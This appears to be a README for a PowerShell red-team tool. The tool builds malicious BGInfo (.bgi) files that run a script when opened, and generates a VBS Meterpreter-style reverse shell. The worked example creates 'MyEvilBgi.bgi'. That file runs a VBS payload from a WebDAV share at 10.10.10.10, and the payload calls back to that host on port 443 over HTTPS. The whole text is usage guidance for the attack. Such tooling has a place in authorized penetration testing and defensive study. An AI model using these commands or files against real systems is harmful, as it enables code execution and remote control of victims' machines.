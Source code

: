 # BGInfo
2 Functions used to create a .BGI file executing script.
Thanks to Cn33liz - @Cneelis for VBSWebMeter.

How to use the functions:

## Example ##
This example will generate a file called MyEvilBgi.bgi and VBSMeterShell.vbs inside the c:\BGIPayload folder. The BGI file will try to execute \\10.10.10.10\webdav\VBSMeterShell.vbs when opened. 

New-BGIFile -FileName "MyEvilBgi.bgi" -Script "\\10.10.10.10\webdav\VBSMeterShell.vbs" -OutFilePath "C:\BGIPayload"
New-VBSWebMeter -RHOST "10.10.10.10" -RPORT "443" -HTTPS "Yes" -OutFilePath "C:\BGIPayload" -OutFile "VBSMeterShell.vbs"